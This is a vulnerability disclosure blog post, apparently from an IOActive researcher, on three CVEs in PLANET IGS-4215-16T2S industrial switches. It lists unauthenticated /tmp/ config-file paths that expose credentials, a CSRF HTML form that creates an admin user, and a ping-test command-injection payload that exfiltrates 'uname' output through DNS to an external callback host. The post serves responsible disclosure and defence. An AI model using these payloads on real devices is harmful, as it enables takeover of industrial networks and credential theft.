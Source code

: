 ```yaml
---
layout: post
title: "CVE-2024-2740, CVE-2024-2741, and CVE-2024-2742. Critical Vulnerabilities Discovered in PLANET IGS-4215-16T2S Industrial Switches"
date: 2025-02-12
categories: [security, research]
tags: [vulnerabilities, network-security, planet-technology, industrial-switches]
---
```


Designed to be installed in heavy industrial demanding environments, the IGS-4215-16T2S / IGS-4215-16T2S-U is the new member of PLANET Industrial-grade, DIN-rail type L2/L4 Managed Gigabit Switch family to improve the availability of critical business applications. It provides IPv6/IPv4 dual stack management and built-in L2/L4 Gigabit switching engine along with 16 10/100/1000BASE-T ports, and 2 extra 100/1000BASE-X SFP fiber slots for data and video uplink. The IGS-4215-16T2S / IGS-4215-16T2S-U is able to operate reliably, stably and quietly in any hardened environment without affecting its performance. It comes with operating temperature ranging from -40 to 75 degrees C in a rugged IP30 metal housing.

![](/img/planet.jpg)

Industrial networking equipment plays a crucial role in modern infrastructure, connecting and controlling critical systems across manufacturing plants, energy facilities, and smart city deployments. The PLANET IGS-4215-16T2S is a managed industrial switch designed for these demanding environments, featuring 16 10/100/1000T ports and 2 100/1000X SFP ports, making it a popular choice for industrial applications requiring reliable Ethernet connectivity.

During a recent security assessment at IOActive, I had the opportunity to analyze this device from a security perspective. The IGS-4215-16T2S comes with features like VLAN support, Quality of Service (QoS), and various management interfaces, including a web-based administration panel. However, our investigation revealed several concerning security vulnerabilities that could potentially compromise not just the device itself, but the entire industrial network it's connected to.


## Unauthenticated Access to Backup Files (CVE-2024-2740)

### Description
The first and most critical vulnerability discovered carries a HIGH severity rating. While the device's administrative web interface requires authentication for most operations, we found that the session verification mechanism failed to protect several critical system resources.

The device stores various configuration and backup files in predictable paths within the `/tmp/` directory, including: 

* `/tmp/ram.log`
* `/tmp/running-config.cfg`
* `/tmp/backup-config.cfg`

What makes this particularly concerning is that these files contain sensitive information, including device credentials, and can be accessed without any authentication.

### Impact
An unauthenticated attacker could:
- Access complete device configurations
- Extract stored usernames and passwords
- Potentially compromise the entire industrial network
- Gain persistent access to the device and its management features


## CSRF in Administrative User Creation (CVE-2024-2741)

### Description
The second vulnerability, rated as MEDIUM severity, enables Cross-Site Request Forgery (CSRF) attacks that could lead to unauthorized creation of administrative users without the legitimate administrator's knowledge.

The issue stems from several security oversights:
1. No CSRF tokens implementation to protect sensitive actions
2. Acceptance of GET requests for operations that should be POST-only
3. Lack of re-authentication requirements for critical actions like user creation


### Proof of Concept
The vulnerability can be exploited using a simple HTML form:

```html
<form action="https://[DEVICE-IP]/cgi-bin/dispatcher.cgi">
    <input type="hidden" name="usrName" value="test" />
    <input type="hidden" name="usrPassType" value="1" />
    <input type="hidden" name="usrPass" value="ioactive" />
    <input type="hidden" name="usrPass2" value="ioactive" />
    <input type="hidden" name="usrPrivType" value="15" />
    <input type="hidden" name="cmd" value="525" />
    <input type="submit" value="Submit request" />
</form>
```

### Impact
An attacker could:
- Create new administrative users without authorization
- Gain persistent access to the device
- Execute malicious actions appearing as legitimate user activity
- Maintain long-term unauthorized access even after the initial compromise is detected

## Authenticated Remote Code Execution (CVE-2024-2742)

### Description
The third vulnerability discovered, rated as LOW severity, affects the Ping Test functionality located in the device's diagnostic tools (Maintenance -> Diagnostic -> Ping Test -> IP Address). The issue stems from inadequate input sanitization in the ping test function, which could allow an authenticated attacker to execute arbitrary commands on the device.

### Proof of Concept
The vulnerability can be exploited by injecting commands into the ping test functionality. For demonstration purposes, we used DNS requests to exfiltrate sensitive system information:

```bash
;ping `uname`.subdomain.com
```

When this payload is entered into the Ping Test functionality, the device:
1. Executes the `uname` command
2. Uses the output as part of a domain name
3. Attempts to ping the resulting domain name

This resulted in DNS queries being made to domains like:
- `Linux.zoraoperl8y4x71u2jb3rbopjgp6dv.oastify.com`
- `root.zoraoperl8y4x71u2jb3rbopjgp6dv.oastify.com`

These DNS queries confirmed that:
- The system is running Linux
- The web application is running with root privileges

### Impact
An authenticated attacker could:
- Execute arbitrary commands on the device
- Gather sensitive system information
- Potentially compromise the entire device
- Use the device as a pivot point for further network attacks

## Timeline and Resolution
The vulnerability was discovered on September 29, 2022, and reported to PLANET Technology on March 29, 2023. The manufacturer released a firmware update (version 1.305b231218) on December 13, 2023, that addresses these vulnerabilities.


## Recommendations
For network administrators using these devices, we recommend:

1. Immediately upgrade to the latest available firmware
2. Implement network segmentation to isolate these devices
3. Actively monitor access to these equipments
4. Consider implementing additional security controls at the network level


## Conclusion
These vulnerabilities highlight the ongoing challenges in industrial device security. Basic security controls like session verification and CSRF protection should be standard features in any networked device, especially those deployed in critical industrial environments.

This research underscores the importance of regular security assessments for industrial network equipment, as even seemingly basic vulnerabilities can have significant implications for operational technology environments.

Find all the details of this advisory on [IOActive's Blog](https://info.ioactive.com/acton/attachment/34793/f-67b1aed6-db74-4efa-82f3-042001c778cb/1/-/-/-/-/IOActive%20Security%20Advisory%20-%20PLANET%20Networking%20-%20Vulnerabilities%20Identified.pdf)
